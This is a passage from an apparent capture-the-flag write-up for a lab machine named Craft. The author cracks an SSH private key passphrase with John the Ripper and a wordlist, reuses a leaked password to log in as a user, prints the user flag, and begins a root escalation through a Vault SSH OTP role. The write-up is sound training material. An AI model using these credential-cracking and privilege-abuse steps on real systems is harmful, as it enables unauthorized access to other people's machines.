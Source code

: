 Ah, a password. No matter. Let's get cracking.
```
$ /usr/share/john/ssh2john.py ssh_gilfoyle > ssh_gilfoyle.hash
$ john ssh_gilfoyle.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Wow, nothing? I guess we'll try the password he re-used for the git service, since the guys at
Pied Piper seem to like re-using credentials.
```
$ ssh -i keys/ssh_gilfoyle gilfoyle@10.10.10.110


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Enter passphrase for key 'keys/ssh_gilfoyle':
gilfoyle@craft:~$ 
```

And... we're in. So much credential re-use. Guys, get a password manager, seriously. Let's get the
user flag now.
```
gilfoyle@craft:~$ cat user.txt 
bbf4b0cadfa3d4e6d0914c9cd5a612d4
```

## Part 4 - Getting Root
To start, let's take a look at Gilfoyle's home directory. Interesting, a file called .vault-token?
We've seen mentions of a "vault" around the git repo and we found a vhost with the name "vault".
Let's take a look at the files we saw on the git repo.
```
vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
